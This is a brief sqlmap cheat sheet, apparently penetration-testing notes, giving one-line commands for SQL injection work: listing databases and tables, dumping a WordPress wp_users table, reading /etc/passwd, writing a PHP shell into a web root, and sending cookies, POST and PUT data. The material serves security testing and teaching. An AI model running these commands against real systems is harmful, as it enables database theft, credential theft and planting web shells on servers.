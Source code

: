 
### Find Databases:

```bash
sqlmap -r request.txt --dbs --batch
```

### Find Tables in a Database:

```bash
sqlmap -r request.txt --batch --dbms=mysql -D wordpress --tables
```

### Dumping Information from  a Table

```bash
sqlmap -r request.txt --batch --dbms=mysql -D wordpress -T wp_users --dump
```

### Read Files:

```bash
sqlmap -r request.txt --file-read=/etc/passwd --batch 
```

### Write Files:

```bash
sqlmap -u request.txt --file-write=/root/Desktop/shell.php --file-dest=/var/html/www/shell.php --batch
```

### Using a cookie:

```bash
sqlmap -u http://example.com --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

or:

```bash
sqlmap -u http://example.com -H 'PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

### Using POST:

```bash
sqlmap -u www.example.com --data='id=1'
```

### Using PUT:

```bash
sqlmap -u www.example.com --data='id=1' --method PUT
```
### Store the Traffic

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```

### Specify Union Columns:

```bash
sqlmap -r sql1.txt --batch --dump --union-cols=5
```